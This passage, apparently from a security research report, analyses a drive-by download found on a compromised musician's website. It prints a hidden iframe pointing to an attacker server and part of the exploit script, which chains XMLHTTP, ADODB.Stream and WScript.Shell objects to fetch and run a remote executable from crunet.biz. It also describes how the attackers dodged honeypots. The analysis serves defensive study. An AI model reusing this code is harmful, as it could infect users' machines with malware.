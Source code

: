 Because the JavaScript code needs to be converted to clear text in order “import” the exploit, the decryption routine is included within the JavaScript code. This makes it easy to extract the clear text, which is shown in Figure 10. It is a simple hidden iframe that includes the page out.php from the server crunet.biz. From there, we observed several redirects and more obfuscation until we were able to view the actual exploit code.

```
<iframe src='https://crunet.biz/out.php' width='1' height='1' style='visibility:
 hidden;'></iframe>
```
Figure 10 - Clear value of obfuscated JavaScript

The obfuscation of the iframe code is one step we encountered frequently, targeted to hide the attack from static analysis tools, such as network based intrusion detection systems. On the Keith Jarrett site, we encountered an additional mechanism that was probably designed to evade detection. Our client honeypot was attacked by www.keithjarrett.it during the initial crawl. However, upon subsequent visits to the same URL, the exploit only triggered on occasion. We suspect that this is a measure to evade client honeypots like ours.

The exploit code itself (portions are shown in Figure 11 and Figure 12) contains some interesting aspects we would like to highlight. The attack code is a multi-step attack that first obtains the payload via the XMLHTTP object, writes it to disk via the ADODB (BID: 10514) object and then executes it with the WScript.Shell or Shell.Application object (BID: 10652). This attack path was disabled by Microsoft in 2004 and is not going to be successful unless an unpatched version of Internet Explorer 6 SP2 is used. The attack follows these three stages with each stage using error handling to increase the chances of the attack succeeding (for example, the usage of the Shell.Application object in case the WScript.Shell object fails).
```
function MDAC() {
 var t = new Array('{BD96C556-65A3-11D0-983A-00C04FC29E30}', '{BD96C556-65A3-11D0-983A-00C04FC29E36}', '{AB9BCEDD-EC7E-47E1-9322-D4A210617116}', '{0006F033-0000-0000-C000-000000000046}', '{0006F03A-0000-0000-C000-000000000046}', '{6e32070a-766d-4ee6-879c-dc1fa91d2fc3}', '{6414512B-B978-451D-A0D8-FCFDF33E833C}', '{7F5B7F63-F06F-4331-8A26-339E03C0AE3D}', '{06723E09-F4C2-43c8-8358-09FCD1DB0766}', '{639F725F-1B2D-4831-A9FD-874847682010}', '{BA018599-1DB3-44f9-83B4-461454C84BF8}', '{D0C07D56-7C69-43F1-B4A0-25F5A11FAB19}', '{E8CCCDDF-CA28-496b-B050-6C07C962476B}', null);
 var v = new Array(null, null, null);
 var i = 0;
 var n = 0;
 var ret = 0;
 var urlRealExe = 'http://crunet.biz/pack/file.php';
 while (t\[i\] && (! v\[0\] || ! v\[1\] || ! v\[2\]) ) {
 var a = null;
 try {
 a = document.createElement("object");
 a.setAttribute("classid", "clsid:" + t\[i\].substring(1, t\[i\].length - 1));
 } catch(e) { a = null; }
 if (a) {
 if (! v\[0\]) {
 v\[0\] = CreateObject(a, "msxml2.XMLHTTP");
 if (! v\[0\]) v\[0\] = CreateObject(a, "Microsoft.XMLHTTP");
 if (! v\[0\]) v\[0\] = CreateObject(a, "MSXML2.ServerXMLHTTP");
 }
 if (! v\[1\]) {
 v\[1\] = CreateObject(a, "ADODB.Stream");
 }
 if (! v\[2\]) {
 v\[2\] = CreateObject(a, "WScript.Shell");
 if (! v\[2\]) {
 v\[2\] = CreateObject(a, "Shell.Application");
 if (v\[2\]) n= 1;
 }
 }
 }
 i++;
 }
```